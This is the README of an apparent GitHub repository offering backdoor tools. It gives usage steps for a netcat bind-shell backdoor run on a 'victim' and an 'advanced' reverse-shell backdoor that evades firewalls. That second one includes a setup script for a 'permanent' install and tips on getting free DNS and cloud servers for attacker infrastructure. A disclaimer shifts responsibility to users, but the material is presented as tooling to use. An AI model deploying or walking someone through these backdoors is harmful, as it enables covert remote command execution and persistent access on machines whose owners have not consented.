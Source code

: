 # How I Create A Backdoor 😎

![Linux-ok](https://img.shields.io/badge/Linux-ok-green) ![MacOS-ok](https://img.shields.io/badge/MacOS-ok-green) ![Window-ok](https://img.shields.io/badge/Window-todo-lightgrey)

## ⚠️ Disclaimer
> Any actions and or activities related to the material contained within this repository is solely your responsibility. The misuse of the information in this website can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this repository to break the law.

<br />

## 👌🏻 Basic Backdoor
### Description
Basic backdoor is the easiest backdoor that you could make.
The victim is just a server that redirects incoming messages into a shell and then sends back the shell output.
The victim IP can be found easly with `nmap`.

**⚠️ You usually need to be on the same subnet of the victim**

### Pre-requirements
- [netcat](http://netcat.sourceforge.net/) *(usually already installed)*

### Usage
```bash
# On the victim
./basic-backdoor/backdoor.sh
```

```bash
# On the attacker
nc $VICTIM-IP 8080
```

<br />

## 💪🏻 Advanced Backdoor
### Description
This advanced backdoor allow to bypass the firewall and to communicate outside subnetwork.
Now the victim is just a client, the attacker is the server. When the victim is connected to the attacker's server, he'll execute command provided by the attacker and then send it back its output.
You can configure `PORT` and `DNS` inside the files [backdoor-client.py](./advanced-backdoor/backdoor-client.py) and [backdoor-server.py](./advanced-backdoor/backdoor-server.py).

> You can use [freenom](https://my.freenom.com) to get a free DNS.
> You can use [aws](https://aws.amazon.com/fr/ec2/) to get free server.

### Pre-requirements
- [python3](https://www.python.org/download/releases/3.0/) *(usually already installed)*
- [pip](https://pip.pypa.io/en/stable/installing/) **(only for attacker)**

### Usage
```bash
# On the victim for non-permanent backdoor
./advanced-backdoor/backdoor-client.py

# ⚠️ On the victim for "PERMANENT" backdoor
./advanced-backdoor/setup.sh
```

```bash
# On the attacker (where the DNS is pointing to)
pip3 install -r ./advanced-backdoor/requirements.txt
./advanced-backdoor/backdoor-server.py
```

----

*➡️ Take time to understand how it's working, PR are welcomed*
